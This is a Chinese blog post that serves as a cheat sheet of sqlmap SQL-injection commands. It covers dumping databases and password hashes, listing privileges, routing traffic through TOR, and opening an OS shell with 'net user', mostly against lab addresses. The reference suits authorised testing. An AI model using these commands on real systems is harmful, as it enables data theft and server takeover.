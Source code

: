```yaml
---
layout: post
title: "sqlmap常用命令"
description: ""
category: 
tags: [网站安全,python]
---
```

{% include JB/setup %}

###搜集些常用命令可以检测些注入

    1、实战mssql
	
	判断注入类型 	python sqlmap.py -u 注入点

	判断当前用户是否是dba 	python sqlmap.py -u 注入点 --is-dba -v 1

	列举数据库用户 	python sqlmap.py -u 注入点 --users -v 0

	列举数据库密码	python sqlmap.py -u 注入点 --passwords -v 0
	
	查看用户权限 	python sqlmap.py -u 注入点 --privileges -v 0

	执行命令	python sqlmap.py -u 注入点 --os-shell		-os-cmd=net user
	

    2、基本使用
	
	执行SQL语句・python sqlmap.py -u 注入点 -v 1 --sql-shell

	更详细的信息 python sqlmap.py -u 注入点 -v 5

	POST提交     python sqlmap.py -u 文件路径 --method POST --data 参数

	cookie提交   python sqlmap.py -u 文件路径 --cookie 参数 -v 1

	使用referer欺骗  python sqlmap.py -u 注入点 --referer referer地址 -v 3 

	自定义user-agent 或者使用随机自带的user-agents.txt

		python sqlmap.py -u 注入点 --user-agent "自定义" -v 3
		python sqlmap.py -u 注入点 -v 1 -a "./txt/user-agents.txt"

	使用基本认证  python sqlmap.py -u 注入点 --auth-type Basic --auth-cred "testuser:testpass" -v 3

	使用Digest认证  python sqlmap.py -u 注入点 --auth-type Digest --auth-cred "testuser:testpass" -v 3

	使用代理,配合TOR  python sqlmap.py -u 注入点 --proxy 代理ip

	使用多线程猜解	python sqlmap.py -u 注入点 -v 1 --current-user --threads 3

	绕过动态检测,直接指定有注入点的参数,可以使用,分割多个参数,指定user-agent注入


    ===================================================================================

	页面比较
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v 

	排除网站的内容
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"

	多语句测试，php内嵌函数mysql_query(),不支持多语句
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1


	union注入测试
	python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1

	unionz注入配合orderby
	python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1


	python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs

	fingerprint
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
	python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b

	判断当前用户是否是dba
	python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --is-dba -v 1

	列举数据库用户
	python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0

	列举数据库用户密码
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0


	查看用户权限
	python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
	python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0

	列数据库
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dbs -v 0

	列表的名字
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --tabless -D test -v 0

	列出指定数据库指定表的列名
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --columns -T users -D test -v 1

	列出指定数据库的指定表的指定列的内容
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump -T users -D master -C surname -v 0

	指定列的范围从2－4
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0

	导出所有数据库，所有表的内容
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump-all -v 0

	只列出用户自己新建的数据库和表的内容
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0

	sql query
	python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
	python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1

	SELECT usename, passwd FROM pg_shadow ORDER BY usename

	保存和恢复会话
	python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"

	保存选项到INC配置文件
	python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save
		
		

